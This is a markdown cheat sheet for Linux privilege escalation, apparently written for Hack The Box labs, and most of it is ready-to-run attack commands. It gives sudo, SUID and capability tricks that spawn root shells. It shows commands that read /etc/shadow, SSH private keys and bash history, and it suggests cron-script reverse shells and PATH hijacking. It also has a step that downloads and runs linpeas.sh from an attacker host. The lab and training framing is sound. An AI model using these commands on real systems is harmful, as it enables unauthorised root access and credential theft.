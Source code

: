 #htb #linux #priv #previlege-escalation   #guide #cheatsheet

## 🔍 1. Basic Enumeration
**Commands:**
```
id
whoami
groups
hostname
uname -a
lsb_release -a
cat /etc/issue
cat /etc/passwd | cut -d: -f1
cat /etc/group
env
echo $PATH
ps aux --forest
ss -tulpn
netstat -tulpn
```
**Goal:** Spot weak services, kernel version, usernames, PATH hijacking.

---

## 🛡 2. Sudo Privileges
**Check:**
```
sudo -l
```
**Examples:**
```
sudo vim -c ':!/bin/bash'
sudo python3 -c 'import os; os.system("/bin/sh")'
sudo less /etc/shadow
sudo awk 'BEGIN {system("/bin/sh")}'
```
**Resource:** [GTFOBins](https://gtfobins.github.io)

---

## ⚙️ 3. SUID / SGID Binaries
**Find:**
```
find / -perm -4000 -type f 2>/dev/null
find / -perm -2000 -type f 2>/dev/null
```
**Examples:**
```
find . -exec /bin/sh \; -quit
nmap --interactive → !sh
bash -p
```

---

## 🎯 4. Capabilities
**Check:**
```
getcap -r / 2>/dev/null
```
**Examples:**
```
/usr/bin/python3.8 = cap_setuid+ep
python3 -c 'import os; os.setuid(0); os.system("/bin/sh")'

/usr/bin/tar = cap_dac_read_search+ep
tar -cf /dev/null /etc/shadow -P -I /bin/sh
```

---

## ⏰ 5. Cron Jobs
**Check:**
```
cat /etc/crontab
ls -la /etc/cron.*
systemctl list-timers
```
**Exploit:** Replace writable cron scripts with reverse shell  
**Monitor:** `./pspy64`

---

## 🔑 6. Password & Key Hunting
**Search:**
```
grep -Ri "password" /etc/ 2>/dev/null
grep -Ri "password" /home/* 2>/dev/null
```
**Check:**
```
cat /var/www/html/config.php
cat /etc/mysql/my.cnf
cat ~/.ssh/id_rsa
cat ~/.bash_history
cat /etc/shadow   # crack with john/hashcat
```

---

## 🗃 7. Writable Files & PATH Hijacking
**Writable:**
```
find / -writable -type f 2>/dev/null
find / -writable -type d 2>/dev/null
```
**PATH Hijack:**
```
echo $PATH
```
If script calls `service` → place malicious `service` in PATH

---

## 🖥 8. Kernel Exploits
**Check:**
```
uname -r
```
**Examples:** DirtyCow, OverlayFS  
**Note:** Rare in HTB, but useful on outdated systems.

---

## 📦 9. Interesting Files
```
/etc/passwd
/etc/shadow
/etc/sudoers
/etc/crontab
/var/mail/
/var/log/
/opt/
/home/*/
```

---

## 🚀 10. Automation Helpers
**Tools:** `linpeas.sh`, `lse.sh`, `pspy`  
**Quick drop:**
```
wget http://<attacker_ip>/linpeas.sh
chmod +x linpeas.sh && ./linpeas.sh
```

---

## 🧠 Workflow (HTB Labs)
1. Initial enum (`id`, `sudo -l`, `find suid`, `getcap`, `cron`)  
2. Take notes → possible attack vectors  
3. Manual attempts first  
4. Run `linpeas.sh`  
5. Cross-check with GTFOBins  
6. Exploit → root  
7. Document path for your playbook  
